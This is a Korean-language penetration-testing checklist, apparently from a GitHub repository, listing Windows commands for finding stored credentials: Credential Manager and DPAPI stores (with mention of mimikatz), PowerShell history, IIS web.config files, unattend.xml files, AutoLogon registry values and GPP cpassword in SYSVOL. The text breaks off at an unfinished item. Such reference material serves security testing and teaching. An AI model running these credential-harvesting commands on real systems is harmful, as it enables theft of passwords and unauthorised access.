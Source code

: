 ### ⚠️ 자주 놓치는 것들

- [ ] **Credential Manager에서 저장된 크레덴셜**

  ```cmd
  cmdkey /list
  dir /a %USERPROFILE%\AppData\Local\Microsoft\Credentials\
  dir /a %USERPROFILE%\AppData\Roaming\Microsoft\Credentials\
  ```

- [ ] **DPAPI 마스터키와 크레덴셜**

  ```cmd
  dir /a %USERPROFILE%\AppData\Roaming\Microsoft\Protect\
  # mimikatz로 DPAPI 크레덴셜 복호화 가능
  ```

- [ ] **PowerShell 히스토리**

  ```powershell
  Get-Content (Get-PSReadlineOption).HistorySavePath
  # 또는
  type %USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
  ```

- [ ] **IIS 설정 파일들**

  ```cmd
  type C:\Windows\Microsoft.NET\Framework\v4.0.30319\Config\web.config
  type C:\inetpub\wwwroot\web.config
  # connectionStrings에서 DB 크레덴셜 확인
  ```

- [ ] **Unattend 파일들에서 패스워드**
  ```cmd
  dir /s *unattend.xml
  dir /s *unattended.xml
  dir /s *autounattend.xml
  # 기본 관리자 패스워드가 있을 수 있음
  ```

### 🔍 세밀한 확인사항들

- [ ] **레지스트리에서 AutoLogon 정보**

  ```cmd
  reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
  reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon
  ```

- [ ] **Group Policy Preferences (GPP) 패스워드**

  ```cmd
  # SYSVOL에서 Groups.xml, Services.xml 등 확인
  findstr /S /I cpassword \\%USERDOMAIN%\sysvol\%USERDOMAIN%\policies\*.xml
  ```

- [ ] **환경 변수에서 크레덴셜**
